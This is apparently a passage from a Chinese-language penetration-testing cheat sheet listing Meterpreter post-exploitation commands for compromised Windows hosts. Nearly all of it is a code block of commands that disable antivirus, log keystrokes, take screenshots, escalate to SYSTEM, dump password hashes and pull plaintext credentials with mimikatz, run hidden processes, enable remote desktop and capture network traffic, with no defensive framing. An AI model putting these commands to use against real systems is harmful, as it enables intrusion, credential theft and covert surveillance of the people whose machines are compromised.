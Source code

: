 在客户端IE中访问http://IP地址:8080/filetypes时产生活跃的对话。

## Meterpreter

### 基础命令

```
run killav #关闭杀毒软件
sysinfo #获取主机信息
run scraper #获取主机详细信息 并以.reg文件形式下载
run post/windows/gather/checkvm #查看是否运行虚拟机
pwd #查看当前工作目录
ls #查看当前目录文件
rm desktop.ini #删除文件
cd .. #切换工作目录
mkdir test #创建test目录
download Pictures
upload /root/passwords.txt

keyscan_start #开始监听键盘
keyscan_dump #导出监听结果
keyscan_stop

screenshot

run post/windows/gather/enum_logged_on_users #枚举用户

getuid #查看权限
getsystem #尝试提权

hashdump #获取密码hash
load mimikatz
mimikatz_command -f sekurlsa::wdigest -a "full" #法一获取密码
msv #获取哈希密码
wdigest #法二获取密码 内存中获取

#绑定进程
ps #获取运行中的进程
getpid #获取当前进程pid
migrate #绑定到pid为400的进程上

#运行程序
execute [options] -f command
    #-H 创建隐藏进程
    #-a 要传递的参数
    #-i 跟进程交互
    #-m 内存中执行
    #-t 使用当前伪造的线程令牌运行
    #-s 在给定的会话中执行
execute -s 1 -f cmd

run post/windows/manage/enable_rdp #远程桌面
idletime #查看远程用户空闲时常
rdesktop 192.168.29.143

run packetrecorder -li #列举目标主机网卡
run packetrecorder -i 1 -l /root/Desktop #捕获网卡编号为1的数据 保存到桌面
```
